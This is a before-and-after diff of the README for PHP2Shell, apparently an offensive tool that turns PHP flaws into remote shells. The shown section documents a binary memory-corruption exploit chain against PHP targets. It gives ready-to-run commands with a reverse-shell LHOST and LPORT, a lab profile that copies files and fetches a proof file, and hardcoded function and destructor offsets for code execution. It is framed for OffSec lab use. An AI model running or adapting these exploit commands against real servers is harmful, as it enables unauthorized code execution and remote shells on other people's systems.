

Before and after one commit to umair-aziz025/PHP2Shell, a Markdown page: README.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs: add comprehensive OffSec lab challenge guide and public Exploit-DB 52704 comparison

````diff
--- a/README.md
+++ b/README.md
@@ -147,14 +205,35 @@ python php2shell.py http://target.lab:8088/ --all --reverse
 python php2shell.py http://target.lab:8088/ --all --lhost 10.10.14.5 --lport 4444
 ```
 
-### 🎯 5. Direct Exploit-DB #52704 Binary Leak Execution
+### 🎯 5. Binary Memory Corruption Chain (OffSec Lab & Custom Targets)
+
+#### For OffSec CVE-2026-109618 Lab Target (Debian 13 Trixie):
 ```bash
+python php2shell.py http://192.168.72.10/ \
+  --exploit \
+  --exploit-method binary \
+  --exploit-profile trixie \
+  --cmd "cp ../p* ." \
+  --fetch /proof.txt
+```
+
+#### For Generic / Public Build Targets (or using raw ELF symbols):
+For general public targets or custom PHP compilations, inspect the upstream reference [Exploit-DB #52704](https://www.exploit-db.com/exploits/52704) or supply the target binary directly for automatic offset extraction:
+```bash
+# Auto-extract symbols directly from the target's libphp.so
 python php2shell.py http://target.lab:8088/index.php \
   --exploit \
   --exploit-method binary \
-  --exploit-profile bookworm \
-  --cmd "id; uname -a" \
-  --proof-file /tmp/pwn
+  --elf /path/to/extracted/libphp.so \
+  --cmd "whoami"
+
+# Or manually supply symbol offsets
+python php2shell.py http://target.lab:8088/index.php \
+  --exploit \
+  --exploit-method binary \
+  --zif-offset 0x465370 \
+  --dtor-offset 0x65eb60 \
+  --cmd "id"
 ```
 
 ### 📊 6. Multi-Target Batch Audit with Report Export
````
Also changed, not shown: other parts of README.md (+58 -0 lines).
